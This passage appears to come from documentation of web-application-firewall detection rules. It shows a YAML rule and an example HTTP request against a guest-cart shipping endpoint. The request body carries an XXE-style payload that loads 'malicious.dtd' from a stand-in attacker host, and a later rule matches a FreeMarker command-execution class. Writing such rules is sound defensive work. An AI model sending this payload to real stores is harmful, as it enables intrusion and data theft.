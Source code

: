 ```yaml
        value: "true"
```

### HTTP Request Example
```http
POST /rest/v1/guest-carts/1/estimate-shipping-methods HTTP/1.1
Host: example.com
Content-Type: application/json

{
  "address": {
    "totalsCollector": {
      "collectorList": {
        "totalCollector": {
          "sourceData": {
            "data": "http://attacker.com/malicious.dtd",
            "dataIsURL": "true"
          }
        }
      }
    }
  }
}
```

### Key Features Demonstrated
- **Multi-property JSON validation** checking both data content and flags
- **URL scheme detection** using contains match for "://"
- **Boolean flag inspection** in JSON structures
- **Complex attack vector prevention** through comprehensive validation

## 10. Template Injection in Request Body - POST Data Analysis

### Description
Raw body content analysis with multi-zone matching.

### Rule Example
```yaml
rules:
  - and:
    - zones:
      - RAW_BODY
      - ARGS
      transform:
      - lowercase
      match:
        type: contains
        value: 'freemarker.template.utility.execute'
```
